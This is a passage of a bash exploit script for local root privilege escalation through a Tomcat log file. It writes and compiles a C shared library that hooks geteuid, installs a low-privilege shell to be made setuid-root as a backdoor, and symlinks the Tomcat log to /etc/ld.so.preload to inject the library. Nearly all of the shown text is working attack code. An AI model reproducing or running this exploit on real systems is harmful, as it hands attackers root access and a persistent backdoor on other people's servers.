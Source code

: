     # [ Active exploitation ]

    trap ctrl_c INT
    # Compile privesc preload library
    echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
    cat <<_solibeof_>$PRIVESCSRC
    #define _GNU_SOURCE
    #include <stdio.h>
    #include <sys/stat.h>
    #include <unistd.h>
    #include <dlfcn.h>
    uid_t geteuid(void) {
        static uid_t  (*old_geteuid)();
        old_geteuid = dlsym(RTLD_NEXT, "geteuid");
        if ( old_geteuid() == 0 ) {
            chown("$BACKDOORPATH", 0, 0);
            chmod("$BACKDOORPATH", 04777);
            unlink("/etc/ld.so.preload");
        }
        return old_geteuid();
    }
    _solibeof_
    gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
        cleanexit 2;
    fi

    # Prepare backdoor shell
    cp $BACKDOORSH $BACKDOORPATH
    echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"

    # Safety check
    if [ -f /etc/ld.so.preload ]; then
        echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
        cleanexit 2
    fi

    # Symlink the log file to ld.so.preload
    rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
    if [ $? -ne 0 ]; then
        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
        cleanexit 3
    fi
    echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
